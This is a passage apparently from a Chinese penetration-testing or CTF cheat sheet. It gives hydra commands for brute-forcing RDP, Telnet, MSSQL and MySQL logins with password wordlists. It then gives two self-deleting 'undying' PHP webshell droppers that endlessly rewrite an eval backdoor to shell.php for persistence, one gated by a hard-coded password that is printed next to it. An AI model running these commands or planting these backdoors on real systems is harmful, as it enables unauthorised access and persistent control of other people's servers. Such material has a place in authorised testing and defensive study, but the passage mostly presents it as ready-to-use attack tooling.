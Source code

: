 爆破RDP远程桌面密码

```
hydra 目标IP地址 rdp -l administrator -P 密码字典.txt -V

```

爆破Telnet

```
hydra 目标IP地址 telnet -l 用户字典.txt -P 密码字典.txt -f -V

```

爆破MSSQL数据库

```
hydra -l sa -P 密码字典.txt 目标IP地址 mssql

```

爆破MySQL数据库

```
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 mysql

```

#### 3.3# 内网渗透

##### 3.3.1 权限维持之不死马

简单不死马：

```
&lt;?php
set_time_limit(0);   //PHP脚本限制了执行时间，set_time_limit(0)设置一个脚本的执行时间为无限长
ignore_user_abort(1);  //ignore_user_abort如果设置为 TRUE，则忽略与用户的断开，脚本将后台运行
unlink(__FILE__);     //删除自身

while(1)
{
    file_put_contents('shell.php','&lt;?php @eval($_POST["AabyssTeam"]);?&gt;');  //创建shell.php
    sleep(0);    //间隔时间
}

```

可以通过不断复写 `shell.php` 来达到该木马难以被使用的效果

防连接不死马：

```
&lt;?php
set_time_limit(0);   // 取消脚本运行时间的超时上限
ignore_user_abort(1);  // 

while(1)
{
    file_put_contents('shell.php','&lt;?php if(md5($_POST["passwd"])=="8c7d608cbb4c63f32be59a9ba8c9f49d"){@eval($_REQUEST["cmd"]);} ?&gt;');  //创建shell.php
    sleep(0);
}

//passwd=AabyssTeam
//POST传参：passwd=AabyssTeam&amp;cmd=system('ls');

```
